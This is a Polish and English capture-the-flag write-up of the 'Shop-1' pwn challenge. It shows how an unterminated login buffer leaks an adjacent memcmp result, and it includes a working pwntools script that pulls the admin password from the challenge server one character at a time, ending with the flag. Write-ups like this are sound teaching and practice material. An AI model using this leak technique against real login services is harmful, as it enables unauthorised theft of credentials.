 ﻿## Shop-1 (pwn, 100p, 34 solves)

> Our marvelous Bragisdumus shop just opened. Come and see [our beautiful Bragisdumus](bragisdumu-shop)!  
> Login as an admin! get the admin password.  
> nc 185.106.120.220 1337

### PL
[ENG](#eng-version)

Z zadaniem otrzymujemy binarkę serwera usługi typu CRUD z wpisami w pamięci procesu. Zgodnie z opisem celem pierwszej części jest zdobycie hasła administratora. Możemy również zalogować się na gościa z loginem i hasłem "guest".

W głównej funkcji programu widzimy, że hasło administratora od momentu wczytania go z pliku "żyje" bardzo krótko:

```c
password = sub_FB5("adminpass.txt", &length);
result = memcmp(input_password, password, length);
free(password);
```

Sama funkcja wczytująca hasło z pliku wydaje się w porządku. W takim razie sprawdźmy co z wynikiem `memcmp`, a konkretnie gdzie na stosie znajduje się zmienna `result`.

```c
char input_login[32]; // [bp-70h]
char input_password[64]; // [bp-50h]
int result; // [bp-10h]
```

Widzimy zatem, że zaraz za buforami na wprowadzony login i hasło.

```c
printf("Logged in as %s\n\n", input_login);
```

Wprowadzony login jest również wypisywany. Może nam to sugerować, że chodzić może o wyciek `result`. Zwłaszcza, że w funkcji wczytującej tekst nie widzimy wstawienia null-byte'a na koniec. Musimy więc wysłać przynajmniej 32 znaki w loginie i 64 w haśle.

Wynik `memcmp` w naszym przypadku to dokładna różnica pomiędzy pierwszymi różniącymi się bajtami. Możemy zatem znak po znaku wyciągnąć hasło.

```python
import pwnlib
#host = 'localhost'
host = '185.106.120.220'

client = pwnlib.tubes.remote.remote(host, 1337)

def login(username, password):
	client.recvuntil('Username: ')
	client.sendline(username)
	client.recvuntil('Password: ')
	client.sendline(password)

password = '~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~'

for i in range(38):
	login('adminxxxxxxxxxxxxxxxxxxxxxxxxxxxxx', password)
	login('guest', 'guest')
	n = int(client.recvlines(2)[1][109:].encode('hex'), 16)
	password = password[:i] + chr(ord(password[i]) - n) + password[i + 1:]
	client.sendline('8')
	print password
```

Hasło oraz flaga to `ASIS{304b0f16eb430391c6c86ab0f3294211}`.


### ENG version

With the task we get a binary of a CRUD service in some entries inside process memory. According to task description the goal is to get the admin password. We can also login to a gues account with user/pass "gest".

In the main function of the program we can see that the admin password "lives very short" after it is read from the file:

```c
password = sub_FB5("adminpass.txt", &length);
result = memcmp(input_password, password, length);
free(password);
```

The password reading function itself seems to be fine at the first glance. Therefore we check what happens with `memcmp` result, specifically: where on the stack is the `result` variable.

```c
char input_login[32]; // [bp-70h]
char input_password[64]; // [bp-50h]
int result; // [bp-10h]
```

We can see that right after the login and passwrod buffers.

```c
printf("Logged in as %s\n\n", input_login);
```

The login is also printed out. This can be a suggestion that it's about leaking `result`. Especially that in the function reading the text there is no null-byte termination inserted. So we need to sent at least 32 characters in login and 64 in password.

The result of `memcmp` in our case is the exact difference between first differing bytes. Therefore we can extract the password character by character:

```python
import pwnlib
#host = 'localhost'
host = '185.106.120.220'

client = pwnlib.tubes.remote.remote(host, 1337)

def login(username, password):
	client.recvuntil('Username: ')
	client.sendline(username)
	client.recvuntil('Password: ')
	client.sendline(password)

password = '~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~'

for i in range(38):
	login('adminxxxxxxxxxxxxxxxxxxxxxxxxxxxxx', password)
	login('guest', 'guest')
	n = int(client.recvlines(2)[1][109:].encode('hex'), 16)
	password = password[:i] + chr(ord(password[i]) - n) + password[i + 1:]
	client.sendline('8')
	print password
```

Password and the flag: `ASIS{304b0f16eb430391c6c86ab0f3294211}`.
